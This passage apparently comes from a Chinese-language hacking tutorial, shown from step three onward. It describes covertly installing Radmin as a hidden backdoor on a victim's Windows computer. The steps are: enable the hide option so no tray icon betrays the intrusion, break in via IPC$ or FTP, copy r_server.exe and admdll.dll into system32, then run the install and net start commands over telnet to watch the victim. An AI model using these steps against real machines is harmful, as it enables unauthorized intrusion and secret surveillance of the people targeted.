## Radmin / Remote
Remote Administrator

把Radmin的密码，选项和安装服务设置好，并且在hide那里打上“勾”（如果不打“勾”的话，到时候入侵的时候，目标的任务栏会出现一个小托盘，这样我们就容易暴露了）

三：利用IPC$或FTP攻击目标，映射目标C盘，把本机C：\winnt\system32下的r\_server.exe和admdll.dll2个文件复制到目标C盘下的winnt\system32\里面 

四：开始——运行，输入：telnet，然后输入r\_server /install，然后再输入：net start r\_server 五：连接到目标看看是不是可以看到对方在干什么了！- -！！！